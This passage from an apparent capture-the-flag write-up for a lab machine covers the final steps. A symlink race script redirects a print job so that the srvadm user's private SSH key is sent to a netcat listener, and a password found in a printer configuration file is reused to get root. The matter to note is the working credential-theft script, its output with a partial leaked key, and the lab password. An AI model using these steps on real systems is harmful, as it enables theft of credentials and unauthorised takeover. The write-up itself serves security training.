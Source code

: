After printing again, the loop will catch the file name and it is the current date and time:
```
2021-09-14_17:30:56
```

I will create a script that will create a symlink that reads the SSH key of _srvadm_ upon file creation:
```bash
for i in $(seq 0 90000); do
        x=$(ls /var/www/jobs)
        if [[ $x ]]; then
                rm -f /var/www/jobs/$x
                ls -la /var/www/jobs
                ln -s /home/srvadm/.ssh/id_rsa /var/www/jobs/$x
                ls -la /var/www/jobs
        fi
done
```

This can be executed on the box and when sending a new print job, the `netcat` listener on port 9100 will print out the SSH key in _/home/srvadm/.ssh/id_rsa_:
```
Ncat: Connection from 10.10.10.186:55568.
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
(...)
```

It can be used to gain access to the box as _srvadm_ via SSH:
```
chmod 600 srvadm_id_rsa

ssh -i srvadm_id_rsa srvadm@10.10.10.186
```

### Privilege Escalation to root

In the home directory of _srvadm_ is a _.cache_ folder with different configuration files for printers.
The file _.cache/conf.d/printers.conf_ contains a password for another printer service:
```
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
```

URL-decoded password:
```
&ftQ4K3SGde8?
```

When switching users to root with `su -` with this password, it gets accepted and we become root!

